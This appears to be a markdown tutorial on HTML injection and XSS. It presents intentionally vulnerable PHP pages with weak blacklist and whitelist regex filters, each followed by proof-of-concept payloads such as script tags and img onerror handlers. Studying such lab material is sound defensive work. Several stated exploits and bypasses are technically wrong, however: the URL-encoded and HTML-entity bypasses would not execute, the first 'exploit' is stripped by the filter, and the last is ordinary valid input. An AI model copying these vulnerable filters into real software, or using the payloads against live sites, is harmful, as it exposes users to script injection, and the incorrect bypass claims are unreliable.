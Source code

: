 
# 🔴 HTML Injection — Blacklist (GET & POST)
---

## 🚫 Blacklist-Based Filtering (GET Method)

```php
html-injection-black-list-get.php
```
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Blacklist - GET</title>
</head>
<body>
    <h1>HTML Injection Blacklist - GET</h1>
    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = preg_replace("/<|>/", "", $_REQUEST['user']); // Removes < and >
        echo "<h2>" . $user_name . "!!</h2>";
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```url
http://example.com/html-injection-black-list-get.php?user=<h1>XSS</h1>
```

### 🛠️ Bypass Technique:

> Use encoded payload:

```
<script>alert('XSS')</script>  
→ Encoded as: %3Cscript%3Ealert('XSS')%3C/script%3E
```

> ⚠️ **Weak blacklist** — only removes `<` and `>`, but many other dangerous inputs like quotes, event handlers, or `img` tags can still execute malicious code.

---

## 🚫 Blacklist-Based Filtering (POST Method)
```php
html-injection-black-list-post.php
```
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Blacklist - POST</title>
</head>
<body>
    <h1>HTML Injection Blacklist - POST</h1>
    <form action="html-injection-black-list-post.php" method="POST">
        User Name: <input type="text" name="user"><br>
        <input type="submit" value="Login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = preg_replace("/<|>/", "", $_REQUEST['user']);
        echo "<h2>" . $user_name . "!!</h2>";
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```php
<h1>Hello!</h1>
```
```php  
<img src=x onerror=alert('XSS')>
```

### 🛠️ Bypass Technique:

> Use HTML entities:

```php
&lt;img src=x onerror=alert(1)&gt;
```

> ⚠️ **Encoding evasion** — Blacklists are easy to bypass using encoded characters or alternative syntax.

---

# 🔴 HTML Injection — Whitelist 

> ⚠️ Weak Whitelist Example — Still Vulnerable
```php
html-injection-white-list.php
```
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Whitelist</title>
</head>
<body>
    <h1>HTML Injection Whitelist</h1>
    <form action="html-injection-white-list.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="Login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];
        if (!preg_match('/[a-z\d_\-\.]/i', $user_name)) {
            die("Don't try to Inject Code");
        } else {
            echo "<h2>" . $user_name . "!!</h2>";
        }
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```php
<h1>Injected</h1>
```

> ✅ Passes because characters like `h`, `1`, `I`, etc., are in the allowed set.

### 🛠️ Bypass Technique:

```php
a<script>alert(1)</script>
```

> ⚠️ The regex only *checks if input contains* allowed characters — it doesn’t reject bad ones **outside** the list.

---

## 🔥 `html-injection-white-list2.php` — Completely Vulnerable
```php
html-injection-white-list2.php
```
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <title>Html Injection White List - 2</title>
</head>
<body>
    <h1>Html Injection White List - 2</h1>
    <form action="html-injection-white-list2.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];

        // ❌ Weak Regex: Only checks if ONE allowed char is present
        if (preg_match('/[a-z\d_\.\-]/i', $user_name)) {
            echo '<h2>' . $user_name . '!</h2>'; // No sanitization
        } else {
            die("Don't try to Inject Code");
        }
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```php
a<script>alert('XSS')</script>
```

> ⚠️ Only one matching character (e.g., `a`) is enough for input to be accepted. Full injection follows.

---

## 🛡️ `html-injection-white-list3.php` — Improved, But Still Risky
```php
html-injection-white-list3.php
```

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <title>Html Injection White List - 3</title>
</head>
<body>
    <h1>Html Injection White List - 3</h1>
    <form action="html-injection-white-list3.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];

        // Strict Regex: Matches only full valid string
        if (!preg_match('/^[a-z\d\.\-\_]*$/i', $user_name)) {
            die("Don't try to Inject Code");
        } else {
            echo "<h2>" . $user_name . "!</h2>";
        }
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```php
admin_user-12
```

